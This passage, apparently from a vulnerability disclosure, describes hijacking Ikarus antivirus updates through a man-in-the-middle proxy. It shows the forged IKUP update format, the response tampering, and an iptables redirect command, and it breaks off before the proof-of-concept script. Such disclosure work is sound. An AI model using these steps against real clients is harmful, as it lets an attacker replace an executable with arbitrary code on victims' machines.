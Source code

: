 ```
    t3modul_w64 002001016
    t3modul 002001016
    sdb 000007074
    t3sigs  000098727
</up>
<dependence>
    t3modul
</dependence>
```
```

Through the proxy we will modify the response and add 1 to the ‘update’ value and forward the response to the client.

Then the client will request the update via this url: http://mirror04.ikarus.at/updates/guardxup001005048.full

The ikarus server will respond with a 404:

```
HTTP/1.1 404 Not Found
Server: nginx/1.6.2
Date: Sun, 23 Oct 2016 04:53:05 GMT
Content-Type: text/html
Content-Length: 168
Connection: close

<html>
<head><title>404 Not Found</title></head>
<body bgcolor="white">
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.6.2</center>
</body>
</html>
```

But we will modify the response with a IKUP format:


```
Bytes: 0x0 - 0x3 == IKUP # header
Bytes: 0x4 - 0x7 == 0x0s
Bytes: 0x8 == 0x3C # pointer to start of PE EXE MZ header
Bytes: 0x20 - 0x23 == update value in little endian (script fixes it up)
Bytes: 0x24 - 0x27 == crc32 checksum (script populates from provided binary)
Bytes: 0x28 -> pointer to MZ header == 0x0s
Bytes: 'pointer to MZ header' -> ? == appended exe
```

Then we will forward to the update to the client, where it replaces guardxup.exe with our executable.

## Proof of concept
Please install mitmproxy 0.17 – pip install mitmproxy==0.17

To use this script, you’ll need to MITM port 80 traffic from the client for use with a transparent proxy.

Set your firewall rules to intercept 80 traffic on port 8080:


```
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```
and execute the script as follows:
```